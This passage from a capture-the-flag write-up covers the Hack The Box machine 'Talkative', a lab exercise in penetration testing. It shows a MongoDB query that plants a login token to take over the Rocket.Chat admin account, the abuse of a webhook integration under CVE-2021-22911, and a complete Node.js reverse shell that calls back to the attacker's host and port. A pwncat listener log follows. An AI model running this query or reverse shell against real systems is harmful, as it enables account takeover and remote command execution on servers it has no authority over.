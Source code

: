 ```
Payload/Query:
```
rs0:PRIMARY> db.getCollection('users').update({username:"admin"}, {$set: { "services":{"loginToken":{"token":"yeeb123"}}, "requirePasswordChange":true} })
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

URL to login:

http://talkative.htb:3000/login-token/yeeb123

I've set the new password to ```yeebyeeb``` and sucessfuly logged in.

### Exploiting rocketchat

There are no rooms just one bot named ```rocket.cat```, the bot was also in the database.

http://talkative.htb:3000/admin/info
In the settings we can find the version running is ```2.4.14```

Okay so apparently rocketchat version 2.4.14 is vulnerable to a NOSQL Injection vulnerability tracked as ```CVE-2021-22911```.

By reading some infromation about the exploit I noticed, that we don't need the full exploit chain since we are already got a user in the ```admin role```.

I've found this github page, that explains how we can use a ```Webhook Integration``` to execute code on the system:

https://github.com/CsEnox/CVE-2021-22911

I was not able to use the ```exec()``` funtion for code execution.
So i had to write a simple ```reverse shell``` directly as a python script:

```
const require = console.log.constructor('return process.mainModule.require')();
var net = require("net"),cp = require('child_process'), shell = cp.spawn("/bin/sh", []);
var s = new net.Socket();
s.connect(9001, "10.10.14.4", function(){
  s.pipe(shell.stdin);
  shell.stdout.pipe(s);
  shell.stderr.pipe(s);
});
```
### Another Docker Container
Again i used ```pwncat```, since it has a lot of cool features and it is a lot better than a simple ```nc``` listener with ```rlwrap```.
```
┌──(kali㉿kali)-[~]
└─$ /home/kali/.local/bin/pwncat-cs -lp 9001
[23:18:49] Welcome to pwncat 🐈!                                                                                                             __main__.py:164
[23:18:50] received connection from 10.10.11.155:44728                                                                                            bind.py:84
[23:18:51] 0.0.0.0:9001: upgrading from /bin/dash to /bin/bash                                                                                manager.py:957
[23:18:52] 10.10.11.155:44728: registered new host w/ db                                                                                      manager.py:957
(local) pwncat$
Active Session: 10.10.11.155:44728  
```

One again we are now within a Docker container
```